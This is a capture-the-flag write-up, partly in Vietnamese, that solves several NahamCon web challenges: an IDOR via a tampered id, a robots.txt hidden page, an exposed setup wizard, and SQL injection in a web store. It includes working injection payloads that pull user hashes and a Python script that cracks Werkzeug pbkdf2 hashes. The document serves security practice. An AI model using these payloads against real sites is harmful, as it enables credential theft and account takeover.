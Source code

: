 # IDOR 


![335429425-8f2baf90-926c-47f7-bd4a-bf0e04253e31](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/b5d18877-dbcc-4c08-8f69-92e982d80f3e)

+ ta có thông tin về hint hash là sha256 ở url ta sẽ mang đi decode và nó đang là id = 11 nên ta sẽ chuyển thành id = 0 và encode nó lại

=> sau khi encode lại ta sẽ chèn vào url 

![335429789-110fdda7-cf77-40db-bd6a-b399dddd33f9](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/a25e68fe-92b4-44d2-a0ad-b6d6e18b00e5)

=> flag: flag{770a058a80a9bca0a87c3e2ebe1ee9b2} 



# challenges: All About Robots

+ trong phần mô tả có đề cập tới file check robots.txt

http://challenge.nahamcon.com:32155/robots.txt

```
User-agent: *
Disallow: /open_the_pod_bay_doors_hal_and_give_me_the_flag.html
```
http://challenge.nahamcon.com:32155/open_the_pod_bay_doors_hal_and_give_me_the_flag.html

Flag 

=> flag{3f19b983c1de42bd49af1a237d7e57b9}


# challenges HelpfulDesk

## Description: 

> bài này mới chỉ download được file zip update bị lỗ hổng 

## solve 

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/fc8b03fb-ef93-4568-a039-b90579328c1d)

+ bài này ta sẽ download file zip chưa bản update bị lỗ hổng của trang web này

+ unzip file ra ta có rất nhiều file config sau đó ta có thể decomplie file exe bằng cách dùng dotpeek để reverse code

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/84020faf-b493-43cf-b45a-6b74551a1b3b)


+ trong đó ta thấy có 1 dòng code config có 1 thông tin về path ẩn

```
public IActionResult SetupWizard()
    {
      if (File.Exists(this._credsFilePath))
      {
        PathString path = ((ControllerBase) this).HttpContext.Request.Path;
        if (((PathString) ref path).Value.TrimEnd('/').Equals("/Setup/SetupWizard", StringComparison.OrdinalIgnoreCase))
          return (IActionResult) this.View("Error", (object) new ErrorViewModel()
          {
            RequestId = "Server already set up.",
            ExceptionMessage = "Server already set up.",
            StatusCode = 403
          });
      }
      return (IActionResult) this.View();
```

challenge.nahamcon.com:30491/Setup/SetupWizard/

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/3f3998eb-081c-4c55-8bc0-9006e08ce6ba)

+ add thêm username password ta đặt là admin:admin

nhắc lại dotpeek ta check phân helpfuldesk controller 

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/5402e05f-67b7-42c2-9b81-eb0a3fb4165c)


+ sau đăng nhập vào ta được HOST-WIN-DX130S2

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/b2aab063-70c7-4e67-b53e-08adda914426)

=> flag: flag{2fd5d91a4504ecf32a1b701a4b7122db}



**trong bài có sử dụng thêm tool snyk.io**


# Challenge Name: Hacker Web Store

## Description

> LTT
  
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.  
  
  
**Attachments:**  [password_list.txt](https://ctf.nahamcon.com/files/0b0df3700fc27beb86dfe2b6d8b077a7/password_list.txt?token=eyJ1c2VyX2lkIjozOTA1LCJ0ZWFtX2lkIjoxODczLCJmaWxlX2lkIjo5M30.ZlJYNQ.2HbqOXfKPZjnZbsNoX0nazWNy88)

## Detailed solution

http://challenge.nahamcon.com:32399/

We have an app with a login page and the option to create posts.

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/e144cd0c-6fcc-49c3-a3f4-76bc8cab0a43)

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/6a233287-bee8-41f7-be71-8c817fbcbd90)

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/dc754595-00c7-491f-b8b3-2ef0ef96a275)

While testing post creation, I detected a SQL injection while sending `'`

![image](https://github.com/neo-M3tinez/nahamCon_CTF/assets/174318737/1d02b5c2-be96-48b7-b0f3-cb4b8ba4b5b9)

The values used in post creation have `'` which block using dynamic data.

We can close the first post value and add next to it a second post with dynamic data like this for the description

```
post 1') , ('Product2', '15.99', 'Description2
```

I started checking for columns inside users table, and I was able to detect name and password using `SELECT X FROM users`

```
1') , ('Product2', (SELECT password FROM users), 'Description3
```

We have multiple users so we need to use LIMIT and OFFSET to get all users names and passwords

```
1') , ('Product2', (SELECT name FROM users LIMIT 1 OFFSET 0), 'Description3
```

```
Joram
```

Repeating the same logic for multiple OFFSET (we have 3 users), we were able to get the users 

```
Joram

James

website_admin_account
```

```
pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34
pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b
pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

As mentioned in the challenge description, we have a custom password list to crack the hashes

Doing some research, I found that the hash format is used by Python Werkzeug `generate_password_hash`

We need to make a custom function and use the same hash type, iterations, and salt to generate hashes from passwords list and compare them to our hashes.

Here is the example for the `website_admin_account` hash

```python
from werkzeug.security import _hash_internal
import sys

def generate_password_hash(password, method="pbkdf2:sha256:600000"):
    """Hash a password with the given method and salt with a string of
    the given length. The format of the string returned includes the method
    that was used so that :func:`check_password_hash` can check the hash.

    The format for the hashed string looks like this::

        method$salt$hash

    This method can **not** generate unsalted passwords but it is possible
    to set param method='plain' in order to enforce plaintext passwords.
    If a salt is used, hmac is used internally to salt the password.

    If PBKDF2 is wanted it can be enabled by setting the method to
    ``pbkdf2:method:iterations`` where iterations is optional::

        pbkdf2:sha256:80000$salt$hash
        pbkdf2:sha256$salt$hash

    :param password: the password to hash.
    :param method: the hash method to use (one that hashlib supports). Can
                   optionally be in the format ``pbkdf2:<method>[:iterations]``
                   to enable PBKDF2.
    :param salt_length: the length of the salt in letters.
    """
    salt = "MSok34zBufo9d1tc"
    h, actual_method = _hash_internal(method, salt, password)
    return "%s$%s$%s" % (actual_method, salt, h)

f = open("pass.txt", "r")
o = open("crack-admin.txt", "w")

for x in f:
   hash = generate_password_hash(x.strip(),method='pbkdf2:sha256:600000')
   a = f"{x.strip()} {hash}"
   o.write(a)
   print(x.strip())
   if hash == "pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57":
       print(f"{x.strip()} found password")
       sys.exit()
o.close()

```

```
ntadmin1234 found password
```

We got our match with `ntadmin1234`

We can login now with  `website_admin_account:ntadmin1234` and get our flag

## Flag

```
flag{87257f24fd71ea9ed8aa62837e768ec0}
```
